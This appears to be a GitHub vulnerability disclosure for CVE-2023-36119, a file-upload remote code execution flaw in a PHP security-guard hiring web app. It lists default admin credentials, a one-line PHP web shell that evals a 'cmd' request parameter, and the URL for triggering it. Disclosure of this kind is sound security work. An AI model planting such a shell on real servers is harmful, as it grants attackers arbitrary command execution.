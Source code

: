 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)
+ CVE ID: CVE-2023-36119
+ CVSS v3.1 `AV:A/AC:L/PR:H/UI:R/S:C/C:H/I:H/A:L/E:F/RL:W/RC:R/CR:H/IR: H/AR:L/MAV:A/MAC:L/MPR:L/MUI:R/MS:C/MC:H/MI:H/MA:H`
![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/0b9e17d4-5535-460a-9632-17225394178d)


**Affect URL**
> http://localhost/osghs/admin/images/index.php?cmd=phpinfo();

**PHP test program**
```
<?php $code = $_GET['cmd'];
eval($code); ?>
```

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/9b24fda4-4fd0-4eb5-b465-8315ef4ceba8)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/fb4e829b-b19a-488e-abbd-f19db61a4087)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/2e775a08-950c-46fa-adb3-42d1cd96c90f)

## POC

https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/aa1de286-20ad-422d-a564-cb2f984af26b

